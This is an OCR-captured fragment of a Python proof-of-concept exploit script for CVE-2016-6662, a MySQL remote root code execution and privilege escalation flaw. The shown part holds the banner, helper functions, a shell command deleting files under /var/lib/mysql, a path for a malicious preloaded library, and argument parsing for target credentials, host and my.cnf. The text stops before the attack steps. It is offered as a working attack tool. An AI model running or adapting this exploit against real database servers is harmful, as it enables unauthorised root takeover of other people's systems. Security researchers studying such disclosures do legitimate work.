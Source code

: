 ~~~~~~~~~~~~~~~~~~~~~~~~~
intro = """
0ldSQL_MySQL_RCE_exploit.py (ver. 1.0)
(CVE-2016-6662) MySQL Remote Root Code Execution / Privesc PoC Exploit

For testing purposes only. Do no harm.

Discovered/Coded by:

Dawid Golunski


"""

import argparse
import mysql.connector    
import binascii
import subprocess


def info(str):
    print "[+] " + str + "\n"

def errmsg(str):
    print "[!] " + str + "\n"

def shutdown(code):
    if (code==0):
        info("Exiting (code: %d)\n" % code)
    else:
        errmsg("Exiting (code: %d)\n" % code)
    exit(code)


cmd = "rm -f /var/lib/mysql/pocdb/poctable.TRG ; rm -f /var/lib/mysql/mysql_hookandroot_lib.so"
process = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
(result, error) = process.communicate()
rc = process.wait() 


# where will the library to be preloaded reside? /tmp might get emptied on reboot
# /var/lib/mysql is safer option (and mysql can definitely write in there ;)
malloc_lib_path='/var/lib/mysql/mysql_hookandroot_lib.so'


# Main Meat

print intro

# Parse input args
parser = argparse.ArgumentParser(prog='0ldSQL_MySQL_RCE_exploit.py', description='PoC for MySQL Remote Root Code Execution / Privesc CVE-2016-6662')
parser.add_argument('-dbuser', dest='TARGET_USER', required=True, help='MySQL username') 
parser.add_argument('-dbpass', dest='TARGET_PASS', required=True, help='MySQL password')
parser.add_argument('-dbname', dest='TARGET_DB',   required=True, help='Remote MySQL database name')
parser.add_argument('-dbhost', dest='TARGET_HOST', required=True, help='Remote MySQL host')
parser.add_argument('-mycnf', dest='TARGET_MYCNF', required=True, help='Remote my.cnf owned by mysql user')
                  
args = parser.parse_args()


# Connect to database. Provide a user with CREATE TABLE, SELECT and FILE permissions
~~~~~~~~~~~~~~~~~~~~~~~~~